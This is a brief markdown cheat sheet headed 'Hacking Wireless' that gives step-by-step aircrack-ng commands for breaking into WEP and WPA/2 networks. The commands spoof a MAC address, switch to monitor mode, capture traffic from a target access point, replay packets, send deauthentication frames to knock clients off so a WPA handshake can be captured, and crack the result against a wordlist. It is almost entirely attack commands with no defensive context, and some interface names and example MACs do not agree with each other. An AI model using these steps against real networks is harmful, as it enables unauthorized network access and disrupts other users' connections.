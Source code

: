 # Hacking Wireless

### WEP

Configure Interface:

```
airmon-ng stop wlan0
ifconfig wlan0 down
macchanger --mac aa:bb:cc:dd:ee:ff wlan0
airmon-ng start wlan0
```

Scan for networks:

```
airodump-ng mon0
```

Target AP:

```
airodump-ng -c (channel) -w (file name) --bssid (bssid) mon0
```

Attack:

```
aireplay-ng -1 0 -a (bssid) -h aa:bb:cc:dd:ee:ff -e (essid) wlan0
aireplay-ng -3 -b (bssid) -h aa:bb:cc:dd:ee:ff wlan0
(captured data will have to be above 10,000 to crack)
```

Cracking:

```
aircrack-ng -b (bssid) (file_name-01.cap)
```

### WPA/2

Configure Interface:

```
ifconfig wlan0 down
airmon-ng stop wlan0
macchanger --mac=aa:bb:cc:dd:ee:ff wlan0
airmon-ng start wlan0
```

Scan for networks:

```
airodump-ng wlan0
```

Choose your target and then:

```
airodump-ng --channel 2 wlan0mon -w outputfile_name --bssid 00:1D:AA:9F:77:4C
```

Attack using AP MAC and Client MAC:

```
aireplay-ng -0 10 -a 00:04:96:2A:BB:EA -c 5C:59:48:0F:24:9A wlan0
aireplay-ng -0 1 -e thestudio... Wlan0mon

-0 means deauthentication
 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
-a 00:14:6C:7E:40:80 is the MAC address of the access point
-c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
ath0 is the interface name
```

Crack the handshake

```
aircrack-ng -w ~/Desktop/Wordlist/CRACKED_PASS.dic /root/Desktop/CapFileName
```

It is also possible to crack the hash using Hashcat (better method). You will need to convert the handshake first

